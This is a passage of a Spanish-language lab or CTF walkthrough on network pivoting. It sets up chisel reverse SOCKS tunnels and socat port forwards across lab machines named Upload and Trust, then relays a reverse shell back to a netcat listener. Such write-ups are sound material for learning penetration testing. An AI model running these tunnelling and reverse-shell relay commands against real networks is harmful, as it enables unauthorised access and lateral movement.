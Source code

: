 ![Pasted image 20241016234359](https://github.com/user-attachments/assets/e2d98e26-1a08-40c3-a2f7-7c23f04a66c0)

#### 30.30.30.2

Para no perder la conexión y no volver a iniciar otra terminal hasta llegar al mismo punto en el que estamos, podemos volver a iniciar el túnel pero en segundo plano con `&`

~~~ bash
./chisel client 20.20.20.2:1111 R:socks &
~~~

Si falla el comando anterior y necesitas volver a aplicarlo, puedes limpiar el proceso de `chisel` igual que con `socat` con el siguiente comando

~~~ bash
killall chisel &
~~~

![Pasted image 20241016235938](https://github.com/user-attachments/assets/d40939da-fd0c-4dec-aa15-0c630488db7e)

#### 20.20.20.2

Repetimos el comando que ejecutaba `socat` pero agregamos el `&` al final

~~~ bash
./socat TCP-LISTEN:1111,fork TCP:10.10.10.1:8000 &
~~~

![Pasted image 20241016235201](https://github.com/user-attachments/assets/16033604-e627-4d38-ac25-4d53f13203eb)

## Reverse Shell

Empezamos en la máquina `30.30.30.2`, reenviamos la reverse shell que nos envía la máquina Upload por el puerto `441` a la máquina Trust al puerto `442`

~~~ bash
./socat TCP-LISTEN:441,fork TCP:20.20.20.2:442
~~~

![Pasted image 20241016234606](https://github.com/user-attachments/assets/e572ffb9-4032-428c-ad70-ac2295d5e5bc)

Ahora configuramos la máquina Trust para que reenvíe hacia nuestro puerto `443`

~~~ bash
./socat TCP-LISTEN:442,fork TCP:10.10.10.1:443
~~~

![Pasted image 20241016234929](https://github.com/user-attachments/assets/3bec57b4-5288-4cf5-81d4-ab5b3532c2e6)

Posteriormente ponemos en escucha el puerto `443` de nuestra máquina


~~~ bash
nc -lvnp 443
~~~

![Pasted image 20241016234919](https://github.com/user-attachments/assets/ee414a78-5039-41f6-8be2-3815c158d4ad)
